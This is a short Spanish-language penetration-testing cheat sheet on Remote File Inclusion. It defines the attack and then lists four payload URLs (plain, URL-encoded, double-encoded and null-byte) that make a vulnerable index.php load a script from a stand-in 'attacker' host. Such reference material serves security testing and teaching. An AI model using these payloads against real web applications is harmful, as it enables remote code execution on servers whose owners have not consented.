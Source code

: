 # Remote File Inclusion (RFI)

La inclusión remota de archivos (RFI) es un ataque dirigido a vulnerabilidades en aplicaciones web que hacen referencia dinámicamente a scripts externos.

Se puede encontrar en cualquier extremo que incluya un archivo de un servidor web. Por ejemplo, /index.php?page=index.html

# Explotando

1 - Carga útil básica 

    http://example.com/index.php?page=http://attacker/script.php
    
2 - Codificación de URL 

    http://example.com/index.php?page=http%3A%2F%2Fattacker%2Fscript.php
    
3 - Codificación doble 

    http://example.com/index.php?page=http%253A%252F%252Fattacker%252Fscript.php
    
4 - Uso de null byte (%00)     

    http://example.com/index.php?page=http://attacker/script.php%00
